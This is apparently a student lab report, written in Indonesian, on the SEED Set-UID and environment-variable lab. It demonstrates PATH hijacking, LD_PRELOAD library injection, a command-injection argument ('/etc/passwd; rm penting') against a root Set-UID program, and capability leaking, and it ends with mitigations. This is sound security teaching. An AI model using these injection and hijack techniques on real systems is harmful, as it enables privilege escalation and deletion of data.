# R1 Software Attack –  (Set-UID, Environment Variables, Format String Vulnerability)
# Set-UID & Environment Variables
## Tujuan
Tujuan dari praktikum ini adalah untuk memahami bagaimana environment variable mempengaruhi perilaku program, khususnya pada program Set-UID, serta bagaimana kesalahan dalam pengelolaan environment, eksekusi program eksternal, dan privilege dapat menyebabkan celah keamanan seperti privilege escalation, command injection, dan capability leaking.
## Environment
- OS: SEED Ubuntu 20.04  
- Tools:
  - gcc  
  - gdb  
  - bash  
  - zsh  
  - diff  
## Task 1 – Manipulating Environment Variables
### Langkah
1. Melihat keseluruhan environment variables yang tersimpan dengan perintah berikut
```bash
printenv
```
2. Melihat keseluruhan environment variables yang tersimpan dengan perintah berikut
```bash
env
```
3. Melihat spesifik environment variables yang tersimpan dengan perintah berikut
```bash
printenv PWD
env | grep PWD
```
4. Menambahkan variabel baru di environment variables dan melihat hasil variabel yang sudah ditambahkan secara spesifik dan keseluruhan
```bash
export Test=Hello
printenv
printenv Test
unset Test
printenv
```
5. Menghapus variabel yang baru ditambahkan di environment variables dan melihat hasil secara keseluruhan
```bash
unset Test
printenv
```
### Dokumentasi Output

*Gambar 1. Langkah 1 Task 1*

*Gambar 2. Langkah 2 Task 1*

*Gambar 3. Langkah 3 Task 1*

*Gambar 4. Langkah 4 Task 1*

*Gambar 5. Langkah 5 Task 1*

### Analisis
Environment variable dapat dibuat, diubah, dan dihapus oleh user, serta secara otomatis diwariskan ke program yang dijalankan dari shell. Karena sifatnya yang fleksibel dan dikontrol oleh user, environment variable dapat menjadi sumber kerentanan jika digunakan tanpa validasi dalam program, terutama pada program dengan privilege tinggi.

---

## Task 2 – Parent dan Child Process
### Langkah
1. Ekstrak file zip Labsetup untuk Task 2
2. Compile file myprintenv dan lihat hasilnya
```bash
gcc myprintenv.c
a.out > hasil1
cat hasil1
```
3. Mengubah kode di myprintenv dengan menukar komentar printenv 
4. Compile file myprintenv yang sudah diubah kodenya dan lihat hasilnya
```bash
nano myprintenv.c
gcc myprintenv.c
a.out > hasil2
cat hasil2
```
4. Membandingkan hasil compile langkah 2 dan langkah 3
```bash
diff hasil1 hasil2
```

### Dokumentasi Output

*Gambar 1. Langkah 1 Task 2*

*Gambar 2. Langkah 2 Task 2*

*Gambar 3. Langkah 3 Task 2*

*Gambar 4. Langkah 4 Task 2*

*Gambar 5. Langkah 5 Task 2*

### Analisis
Environment variable diwariskan secara identik dari parent process ke child process saat fork() dipanggil. Karena tidak ada perubahan pada environment setelah proses dibuat, maka output dari parent dan child menjadi sama. Hal ini menunjukkan bahwa fork() melakukan penyalinan environment, bukan berbagi environment secara langsung.

---

## Task 3 – execve()
### Langkah
1. Compile file myenv dan lihat hasilnya
```bash
gcc myenv.c
a.out > hasil3
cat hasil3
```
2. Mengubah kode di myenv dengan perintah "nano" untuk mengganti "NULL" menjadi "environ"
```c
execve("/usr/bin/env", argv, NULL);
execve("/usr/bin/env", argv, environ);
```
3. Compile ulang file myenv dan lihat hasilnya
```bash
gcc myenv.c
a.out > hasil4
cat hasil4
```
### Dokumentasi Output

*Gambar 1. Langkah 1 Task 3*

*Gambar 2. Langkah 2 Task 3*

*Gambar 3. Langkah 3 Task 3*

### Analisis
Environment variables tidak otomatis diwariskan oleh execve(). Program baru hanya mendapatkan environment jika diberikan secara eksplisit melalui parameter ketiga (envp).
---

## Task 4 – system()
### Langkah
1. Buat file baru dengan perintah "sudo nano" berisi kode program berikut
```c
#include <stdio.h>
#include <stdlib.h>
int main()
{
system("/usr/bin/env");
return 0 ;
}
```
2. Compile file program dan lihat hasilnya
```bash
gcc task4.c
a.out > hasil5
cat hasil5
```
### Dokumentasi Output

*Gambar 1. Langkah 1 Task 4*

*Gambar 2. Langkah 2 Task 4*

### Analisis
Fungsi system() mewariskan environment variables ke program yang dijalankan karena secara internal menggunakan execve() dengan parameter environment (environ).

---

## Task 5 – Set-UID & Environment
### Langkah
1. Buat file baru dengan perintah "sudo nano" berisi kode program berikut
```c
#include <stdio.h>
#include <stdlib.h>
extern char **environ;
int main()
{
int i = 0;
while (environ[i] != NULL) {
printf("%s\n", environ[i]);
i++;
}
}
```
2. Compile file program dan ubah hasil compile menjadi Set-UID Root
```bash
gcc task5.c
sudo chown root a.out
sudo chmod 4755 a.out
```
3. SET environment manual sesuai perintah berikut
```bash
export LD_LIBRARY_PATH=/tmp
export ANY_NAME=MAHIJA
export PATH=/tmp:$PATH
```
4. Menjalankan program Set-UID dan melihat hasilnya
```bash
a.out > hasil6
cat hasil6
```
### Dokumentasi Output

*Gambar 1. Langkah 1 Task 5*

*Gambar 2. Langkah 2 Task 5*

*Gambar 3. Langkah 3 Task 5*

*Gambar 4. Langkah 4 Task 5*

### Analisis
Set-UID program mewarisi sebagian environment variables dari user, tetapi sistem operasi akan menghapus atau memodifikasi variabel yang berpotensi berbahaya (seperti LD_LIBRARY_PATH) untuk mencegah privilege escalation.

---

## Task 6 – PATH Attack
### Langkah
1. Buat file baru dengan perintah "sudo nano" berisi kode program berikut
```c
#include <stdlib.h>
int main() {
    system("ls");
    return 0;
}
```
2. Compile file program dan ubah hasil compile menjadi Set-UID Root
```bash
gcc task6.c
sudo chown root a.out
sudo chmod 4755 a.out
```
3. Buat file baru di folder (/home/seed) dengan perintah "sudo nano ls" berisi kode program berikut
```bash
#!/bin/bash
echo "MALICIOUS CODE RUNNING"
id
```
kemudian simpan program dengan perintah berikut
```bash
chmod +x ls
```
4. Manipulasi PATH dan jalankan program task6 yang sudah di Set-UID
```bash
export PATH=/home/seed:$PATH
a.out > hasil7
cat hasil7
```
5. Mengganti shell dengan perintah berikut
```bash
sudo ln -sf /bin/zsh /bin/sh
```
6. Mengubah kode pada program ls pada langkah 3
7. Menjalankan ulang program pada langkah 1
```bash
a.out > hasil7
cat hasil7
```
### Dokumentasi Output

*Gambar 1. Langkah 1 Task 6*

*Gambar 2. Langkah 2 Task 6*

*Gambar 3. Langkah 3 Task 6*

*Gambar 4. Langkah 4 Task 6*

*Gambar 5. Langkah 5 Task 6*

*Gambar 6. Langkah 6 Task 6*

*Gambar 7. Langkah 7 Task 6*

### Analisis
Set-UID program yang menggunakan system() dengan perintah relatif (seperti "ls") dapat dieksploitasi melalui manipulasi PATH, sehingga program menjalankan kode berbahaya milik user. Jika shell tidak memiliki proteksi (seperti zsh), maka kode tersebut dapat berjalan dengan privilege root.

---

## Task 7 – LD_PRELOAD Attack
### Langkah
1. Membuat library jahat (override sleep()) dengan program berikut
```c
#include <stdio.h>
void sleep(int s) {
    printf("I am not sleeping!\n");
}
```
2. Compile program tersebut dan set LD_PRELOAD dengan perintah berikut
```bash
gcc -fPIC -g -c task7-2.c
gcc -shared -o libmylib.so.1.0.1 task7-2.o -lc
export LD_PRELOAD=./libmylib.so.1.0.1
```
3. Membuat file baru dengan program berikut
```c
#include <unistd.h>
int main() {
    sleep(1);
    return 0;
}
```
4. Compile program tersebut dengan perintah berikut
```bash
gcc task7-2.c -o task7-2
```
5. Menjalankan program dengan kondisi 1 yaitu Program biasa (normal user)
```bash
./task7-2
```
6. Menjalankan program dengan kondisi 2 yaitu Set-UID root (run sebagai user biasa)
```bash
sudo chown root task7-2
sudo chmod 4755 task7-2
./task7-2
```
7. Menjalankan program dengan kondisi 3 yaitu Set-UID root + run dari root
```bash
sudo su
export LD_PRELOAD=./libmylib.so.1.0.1
./task7-2
```
8. Menjalankan program dengan kondisi 4 yaitu Set-UID user lain (misal user1), dijalankan user biasa
```bash
exit
sudo adduser user1
sudo chown user1 task7-2
sudo chmod 4755 task7-2
export LD_PRELOAD=./libmylib.so.1.0.1
./task7-2
```
### Dokumentasi Output

*Gambar 1. Langkah 1 Task 7*

*Gambar 2. Langkah 2 Task 7*

*Gambar 3. Langkah 3 Task 7*

*Gambar 4. Langkah 4 Task 7*

*Gambar 5. Langkah 5 Task 7*

*Gambar 6. Langkah 6 Task 7*

*Gambar 7. Langkah 7 Task 7*

*Gambar 8. Langkah 8 Task 7*

### Analisis
LD_PRELOAD bekerja pada program biasa, tetapi tidak bekerja pada Set-UID program yang dijalankan oleh user biasa karena dihapus oleh dynamic linker untuk alasan keamanan. Namun, jika tidak terjadi privilege escalation (misalnya root menjalankan program), maka LD_PRELOAD tetap berlaku.

---

## Task 8 – system() vs execve()
### Langkah
1. Buat file target dengan perintah berikut
```bash
echo "file penting" > penting
```
2. Compile program catall.c dengan perintah berikut
```bash
gcc catall.c -o catall
sudo chown root catall
sudo chmod 4755 catall
```
3. Jalankan program catall.c dengan perintah berikut
```bash
./catall "/etc/passwd"
```
4. Jalankan program catall.c dengan modifikasi perintah berikut
```bash
ls
./catall "/etc/passwd; rm penting"
ls
```
5. Modifikasi kode di catall.c dengan perintah "nano" untuk menambahkan slash pada fungsi system dan menghapus slash di fungsi execve
```c
// system(command);
execve(v[0], v, NULL);
```
6. Buat file target 2 dengan perintah berikut
```bash
echo "file penting" > penting2
ls
```
7. Compile kembali program catall.c dan jalankan dengan perintah berikut
```bash
gcc catall.c -o catall
sudo chown root catall
sudo chmod 4755 catall
./catall "/etc/passwd; rm penting2"
ls
```

### Dokumentasi Output

*Gambar 1. Langkah 1 Task 8*

*Gambar 2. Langkah 2 Task 8*

*Gambar 3. Langkah 3 Task 8*

*Gambar 4. Langkah 4 Task 8*

*Gambar 5. Langkah 5 Task 8*

*Gambar 6. Langkah 6 Task 8*

*Gambar 7. Langkah 7 Task 8*

### Analisis
Penggunaan system() dalam Set-UID program berbahaya karena memungkinkan command injection melalui input user, sehingga user dapat menjalankan perintah tambahan dengan privilege root. Sebaliknya, execve() lebih aman karena tidak menggunakan shell dan tidak memproses karakter khusus.

---

## Task 9 – Capability Leaking
### Langkah
1. Buat file target dengan perintah berikut
```bash
sudo touch /etc/zzz
sudo chmod 644 /etc/zzz
```
2. Compile program tersebut dan jadikan Set-UID root dengan perintah berikut
```bash
gcc cap_leak.c -o capleak
sudo chown root capleak
sudo chmod 4755 capleak
```
3. Jalankan program dengan user biasa dengan perintah berikut
```bash
./capleak
```
4. Mencoba eksplotasi hasil program sebelumnya dengan perintah berikut
```bash
echo "HACKED" >&3
/bin/cat /etc/zzz
```
### Dokumentasi Output

*Gambar 1. Langkah 1 Task 9*

*Gambar 2. Langkah 2 Task 9*

*Gambar 3. Langkah 3 Task 9*

*Gambar 4. Langkah 4 Task 9*

### Analisis
Program mengalami capability leaking karena file descriptor yang dibuka saat masih memiliki privilege root tidak ditutup sebelum privilege diturunkan. Akibatnya, meskipun program telah menjadi user biasa, file descriptor tersebut masih dapat digunakan untuk menulis ke file yang seharusnya tidak dapat diakses.

---

## Mitigasi
- Gunakan absolute path saat memanggil program (misalnya /bin/ls, bukan ls)
- Hindari penggunaan fungsi system(), gunakan execve() atau fungsi sejenis
- Jangan mempercayai input user secara langsung, lakukan validasi dan sanitasi
- Batasi dan filter environment variable berbahaya (seperti LD_PRELOAD, LD_LIBRARY_PATH)
- Jangan menggunakan environment variable dari user pada program Set-UID
- Terapkan prinsip Least Privilege (gunakan privilege seminimal mungkin)
- Tutup semua file descriptor sebelum menurunkan privilege
- Gunakan flag keamanan seperti FD_CLOEXEC untuk mencegah descriptor bocor
- Hindari penggunaan relative path dalam program yang memiliki privilege tinggi
- Pastikan shell atau interpreter yang digunakan tidak membuka celah (hindari shell tanpa proteksi)
- Lakukan audit kode terhadap potensi:
1. command injection
2. path hijacking
3. library injection
- Gunakan mekanisme keamanan tambahan seperti:
1. sandboxing
2. privilege separation

---

## Kesimpulan
Environment variable memiliki pengaruh besar terhadap perilaku program dan dapat menjadi sumber kerentanan jika tidak dikelola dengan benar. Pada program Set-UID, kesalahan seperti penggunaan system(), path relatif, serta tidak dibersihkannya resource setelah privilege diturunkan dapat dimanfaatkan untuk melakukan eksploitasi seperti command injection, privilege escalation, dan capability leaking, sehingga diperlukan penerapan praktik keamanan yang tepat dalam pengembangan sistem.